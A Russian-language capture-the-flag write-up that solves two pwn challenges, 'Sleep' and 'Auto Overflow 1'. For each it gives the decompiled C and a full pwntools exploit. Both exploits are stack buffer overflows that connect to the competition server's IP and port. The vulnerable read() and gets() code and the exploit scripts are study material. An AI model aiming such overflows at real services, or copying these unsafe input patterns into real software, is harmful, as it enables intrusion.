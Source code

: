 # PWN. Analysis of tasks solving from forkbomb

* Sleep
* Auto Overflow 1

## Sleep
Откроем исполняемчый файл в Cutter и в функции `main` увидим следующее:
```
    undefined8 main(void)
    {
    char *buf;
    int s;
    
    alarm(5);
    s = 0x400;
    printf("Enter your name: ");
    read(0, &buf, 0x400);
    printf("Hello %s! You will get your flag in %d seconds\n", &buf, s);
    sleep(s);
    system("cat /flag");
    return 0;
    }
```
Проанализировав код, приходим к выводу, что необходимо перетереть переменную `s`, отвечающую за время, через которое нам выдадут флаг.
Также это нужно сделать менее, чем за 5 секунд, ведь, из-за команды `alarm(5)`, программа завершится. Напишем следующий эксплойт при помощи `pwntools`:
```
from pwn import *

exe = context.binary = ELF('./path-to-binary')

host = args.HOST or '109.233.56.90'
port = int(args.PORT or 11576)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()
io.recvuntil(b'Enter your name: ')
load = b'\0'*272
io.send(load)
io.interactive()

```
Теперь осталось лишь запустить эксплойт: `python3 exploit-name.py` и получить **флаг: spbctf{beep_boop_overflow_int_variable}**

## Auto Overflow 1
Откроем исполняемый файл в Cutter и посмотрим на функцию `main`:
```
undefined4 main(void)
{
    undefined4 uVar1;
    int32_t iVar2;
    int var_88h;
    int var_84h;
    int var_80h;
    int var_7ch;
    char *var_78h;
    int var_6ch;
    int var_64h;
    int var_60h;
    int var_5ch;
    int var_58h;
    int var_54h;
    char verify [65];
    int rnd;
    
    // int main();
    uVar1 = time(0);
    srand(uVar1);
    uVar1 = rand();
    sprintf(verify, 0x4008e4, uVar1);
    printf("Welcome to Битва Экстрасенсов.\n");
    printf("OK, here\'s the deal.\n");
    printf("We want you to set the value of string1 to \'%s\'.\n", verify);
    printf("And you only have 1 second to check your superspeed.\n");
    alarm(1);
    printf("Give me your input: ");
    gets(input);
    iVar2 = strcmp(string1, verify);
    if (iVar2 == 0) {
        printf("Yissss!\n");
        printf("Flag is: spbctf{******************************}\n");
    } else {
        printf("YOU FAILED\n");
        printf("Because, here\'s the target string: \'%s\'\n", verify);
        printf("      And here\'s the your string1: \'%s\'\n\n", string1);
        printf("See the difference?\n");
    }
    return 0;
}
```
Проведя анализ, понимаем, что нужно менее чем за 1 секунду отправить 64 "мусорных байта", а затем изменить строку на требуюмую. Это можно сдлеать при помощи всеми любимого `pwntools`:
```
from pwn import *

exe = context.binary = ELF('path-to-binary')

host = args.HOST or '109.233.56.90'
port = int(args.PORT or 11587)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

io.recvuntil(b"string1 to '")
need = io.recvuntil(b"'")
need = need[0:-1]
load = b'A'*64 + need
io.sendline(load)

io.interactive()

```
Теперь запустим эксплойт: `python3 exploit-name.py` и получаем **флаг: spbctf{how_d1d_y0u_l1ke_the_g37s_func}**
